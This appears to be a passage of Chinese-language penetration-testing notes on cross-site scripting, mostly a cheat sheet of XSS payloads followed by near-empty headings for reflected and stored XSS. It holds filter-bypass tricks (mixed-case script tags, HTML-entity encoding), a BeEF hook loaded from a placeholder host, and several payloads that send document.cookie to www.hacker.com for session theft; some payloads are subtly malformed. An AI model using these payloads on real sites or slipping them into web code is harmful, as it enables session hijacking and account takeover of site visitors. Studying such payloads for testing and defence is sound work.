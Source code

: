 

**巧用图片标签**：

```html
<img src="#" onerror=alert('XSS')>
<img src="javascript:alert('XSS');">
<img src="http://BeEF_IP:3000/hook.js"></img>
```



**绕开过滤的脚本：**

```html
大小写：
<ScrIpt>alert('XSS')</SCRipt>

字符编码 采用URL、Base64等编码
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;">Demo</a>

收集用户Cookie
<script>window.open("http://www.hacker.com/cookie.php?cookie="+document.cookie)</script>
<script>document.location="http://www.hacker.com/cookie.php?cookie="+document.cookie</script>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie="+document.cookie;</script>
<img src="'http://www.hacker.com/cookie.php?cookie='+document.cookie"></img>
<iframe src="'http://www.hacker.com/cookie.php?cookie='+document.cookie"></iframe>
<script>new Image().src="'http://www.hacker.com/cookie.php?cookie='+document.cookie";img.width=0;img.height=0;</script>
```





#### 反射型XSS



#### 存储型XSS

弹窗警告：



获取Cookie：

步骤：

1. 构建收集Cookie服务器

![XSS存储型启动Apache服务器](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/XSS存储型启动Apache服务器.png)

